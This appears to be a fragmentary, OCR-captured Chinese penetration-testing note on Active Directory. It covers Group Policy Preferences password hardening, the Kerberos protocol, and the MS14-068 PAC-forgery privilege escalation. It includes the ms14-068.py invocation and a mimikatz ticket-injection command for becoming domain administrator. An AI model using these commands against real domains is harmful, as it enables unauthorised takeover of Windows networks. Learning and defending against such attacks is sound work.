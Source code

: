 ```
在用于管理GPO的计算机上安装KB2962486,以防止将新凭据置于组策略首选项中。
设置Everyone访问权限
不在组策略中使用域控密码
设置共享文件夹SYSVOL的访问权限
删除现有的GPP里包含密码的xml文件。
```

使用 PowerShell 脚本解密  

```
Kerberos协议的滥用
https://www.freebuf.com/articles/system/45631.html

Kerberos的工作原理
http://adsecurity.org/?p=227
```

```
https://github.com/bidord/pykek/archive/master.zip
https://github.com/gentilkiwi/mimikatz/releases/
```

防：

```
apt-get install krb5-user

apt-get install rdate
```

Kerberos 是西方神话中守卫地狱之门的三头犬的名字。只所以使用这个名字是因为 Kerberos 需要三方的共同参与，才能完成一次事务处理。

Kerberos 是 Windows 活动目录中使用的客户 / 服务器认证协议，为通信双方提供双向身份认证。相互认证或请求服务的实体被称为委托人（principal）。参与的中央服务器被称为密钥分发中心（简称 KDC）。KDC 有两个服务组成：身份验证服务（Authentication Server，简称 AS）和票据授予服务（Ticket Granting Server，简称 TGS）。在 Windows 域环境下，身份验证服务和票据授予服务可同时运行在任何可写域控服务器上。

更多阅读:

```
请求没有PAC的Kerberos TGT认证票据作为标准用户，DC回复TGT
生成一个伪造的PAC，没有密钥，所以生成的PAC使用域用户的密码数据用MD5算法而不是HMAC_MD5“签名”。
作为TGS服务票据请求的一部分，使用伪造的PAC作为授权数据发送无PAC的TGT到DC。
DC似乎被这个混淆了，所以它放弃了用户发送的不含PAC的TGT，创建一个新的TGT，并将伪造的PAC插入到它自己的授权数据中，并将这个TGT发送给用户。
这个伪造PAC的TGT使得用户可以成为易受攻击的DC上的域管理员。
```

最根本的问题在于权限属性证书可以被伪造, 权限属性证书中存储帐号用户名、ID、组成员等信息, 掌握域用户一些基本信息就可以获取域管理员权限

攻击者可以有效地重写有效的 Kerberos TGT 身份验证票据，使其成为域管理员（和企业管理员）

```
whoami /user

python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```

```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
```
